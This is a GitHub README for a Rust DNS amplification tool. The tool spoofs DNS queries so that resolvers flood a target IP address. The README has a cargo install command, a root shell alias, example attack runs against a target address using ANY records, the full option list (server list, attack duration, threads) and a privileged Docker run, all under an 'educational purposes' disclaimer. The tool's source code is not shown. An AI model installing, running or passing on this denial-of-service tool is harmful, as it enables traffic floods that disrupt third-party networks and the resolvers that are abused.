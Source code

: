 # r_dns-amplifier

![license](https://img.shields.io/badge/license-MIT-brightgreen.svg)
![version](https://img.shields.io/badge/version-2.4.1-lightgrey.svg)

`r_dns-amplifier` is a Rust tool for educational purposes to demonstrate DNS amplification attacks. It sends spoofed DNS queries to a target server, which then responds with a large volume of data to the specified address, amplifying the traffic.

**DISCLAIMER:** DNS amplification attacks are illegal and unethical. Use this tool responsibly and only for educational purposes. The author disclaims all responsibility for misuse.

## Requirements

- Rust (tested with version 1.81.0)
- Additional libraries: `pkg-config`, `libssl-dev`

## Install

Install globally via Cargo:

## Install

You can install the script globally using the cargo package manager by running:

```
cargo install --git https://github.com/cavoq/r_dns-amplifier.git --branch master
```

You may also need some additional libs:

```
sudo apt-get install pkg-config libssl-dev
```

Because this script uses raw sockets it requires root privileges, you need to set an alias and run the script like this if you don't want
to specify the full path:

```
echo "alias sudo-rdns='sudo env \"PATH=$PATH\" r_dns-amplifier'" >> ~/.bashrc && source ~/.bashrc
```

**Note: Instead of *r_dns-amplifier* you call *sudo-rdns***
## Usage

Example usage with global install:
```
sudo-rdns 192.168.2.1 --port 53 -r ANY -d google.com
```

You can also run this script by building it directly after cloning:
```
cargo build --release
```

*see help:*

```
Usage: r_dns-amplifier [OPTIONS] <TARGET>

Arguments:
  <TARGET>  IPv4 address of the target

Options:
  -p, --port <PORT>                  Port of the target [default: 53]
  -r, --record-type <RECORD_TYPE>    DNS record type to use [A, MX, NS, ANY] [default: ANY]
  -s, --server-list <SERVER_LIST>    List of DNS servers to use
  -t, --time <TIME>                  Time of the attack in seconds
  -d, --domain <DOMAIN>              Domain to resolve [default: google.com]
  -m, --threads <THREADS>            Thread count [default: 10]
  -n, --dns-resolver <DNS_RESOLVER>  DNS resolver to use
  -h, --help                         Print help
  -V, --version                      Print version
```

## Docker

You can also run this script in a Docker container, the `--privileged` flag is required to use raw sockets in the container.

```
docker build -t r_dns-amplifier .
docker run --rm --privileged r_dns-amplifier 192.168.2.1 --port 53 -r ANY -d google.com
```
